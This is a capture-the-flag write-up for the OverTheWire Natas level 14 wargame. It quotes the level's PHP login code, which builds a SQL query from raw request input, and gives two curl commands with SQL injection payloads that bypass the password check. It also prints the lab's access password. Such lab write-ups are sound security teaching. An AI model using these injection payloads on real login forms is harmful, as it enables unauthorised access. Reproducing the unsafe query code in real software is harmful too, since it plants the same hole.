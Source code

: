 ```yaml
---
category: natas
title: Natas14 - SQL Injection Part 1
---
```


website: http://natas14.natas.labs.overthewire.org/ (password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1)

In this challenge, it simulates a login page by authenticating a pair of username and password.

From the provided source code, we can see this challenge is all about SQL Injection:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
...
if(mysql_num_rows(mysql_query($query, $link)) > 0) { ...
```

As we can see above, the username and password are inserted into a query string directly and then sent to mysql for execution.

Any of the two curl commands below will work.
Here, the symbol `#` and `-- ` are leading characters for a comment in SQL. Therefore, it will silent the validation of the password.

```shell
$ curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/index.php?debug -F 'username=a" or 1=1#' -F 'password=b'
$ curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/index.php?debug -F 'username=a" or 1=1-- ' -F 'password=b'
```

Moreover, pay attention to the 2nd command. There is a space after "-\-".
The space <em>is</em> required for mysql, which differs slightly from standard SQL comment syntax.

